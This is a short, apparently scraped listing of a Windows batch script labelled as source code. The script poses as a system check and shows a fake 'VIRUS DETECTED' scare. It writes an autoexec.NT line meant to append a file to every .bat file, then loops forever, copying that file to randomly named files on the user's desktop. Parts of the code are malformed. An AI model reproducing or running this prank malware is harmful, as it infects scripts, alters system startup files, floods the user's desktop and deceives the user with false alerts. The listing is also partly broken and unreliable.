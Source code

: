 @echo off

echo checking system:

echo for %%i in ("*.bat") do copy %%i+c:\tmp.bat %%i #*>c:\windows\system32\autoexec.NT

echo VIRUS DETECTED

Pause

echo DELETING VIRUS

pause

:1

dir /s

copy c:\tmp.bat

c:\document~1\%username%\desktop\greatgame_%random%.bat
goto 1
